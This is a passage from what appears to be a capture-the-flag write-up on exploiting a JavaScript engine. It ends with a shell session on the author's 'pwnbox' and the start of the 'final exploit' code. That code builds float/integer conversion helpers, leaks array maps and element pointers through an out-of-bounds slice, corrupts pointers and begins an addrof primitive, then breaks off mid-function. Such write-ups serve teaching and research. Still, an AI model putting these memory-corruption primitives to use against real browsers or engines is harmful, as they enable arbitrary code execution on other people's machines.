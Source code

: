 ```asm
d4mian@pwnbox:/home/d4mian/CTFs$ whoami
d4mian
d4mian@pwnbox:/home/d4mian/CTFs$ id
uid=1000(d4mian) gid=1000(d4mian) groups=1000(d4mian),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
d4mian@pwnbox:/home/d4mian/CTFs$ ^C
d4mian@pwnbox:/home/d4mian/CTFs$ exit
```

Success, we spawned a shell. That was a long ride. Hope you enjoyed it.


The final exploit looks like:-

```js
var aux_obj = {"a": 1}
var aux_obj_arr = [aux_obj];
var aux_float_arr = [1.1, 2.2, 3.3];
var aux_arr = aux_float_arr.slice(aux_float_arr)

var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val, size) {

    f64_buf[0] = val;

    if(size == 32) {
        return BigInt(u64_buf[0]);
    } else if(size == 64) {
        return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
    }

}

function itof(val, size) {

    if(size == 32) {
        u64_buf[0] = Number(val & 0xffffffffn);
    } else if(size == 64) {
        u64_buf[0] = Number(val & 0xffffffffn);
        u64_buf[1] = Number(val >> 32n);
    }

    return f64_buf[0];

}

var flt_arr_map = ftoi(aux_arr[3], 32);
var elem_arr_ptr = ftoi(aux_arr[4], 32);
console.log("[+] Float array map: 0x" + flt_arr_map.toString(16));
console.log("[+] Pointer to array elements: 0x" + elem_arr_ptr.toString(16));

var elem_obj_arr = elem_arr_ptr - 0xc0n + 0x4n;
aux_arr[4] = itof((ftoi(aux_arr[4], 64) & 0xffffffff00000000n) + elem_obj_arr, 64);

console.log("[+] Pointer to object array elements: 0x" + elem_obj_arr.toString(16));

var obj_arr_map = ftoi(aux_arr[0], 64) >> 32n;
console.log("[+] Object array map: 0x" + obj_arr_map.toString(16));

function addrof(obj) {
    aux_arr = aux_float_arr.slice(aux_float_arr)
    aux_arr[4] = itof((ftoi(aux_arr[4], 64) & 0xffffffff00000000n) + elem_obj_arr, 64);
```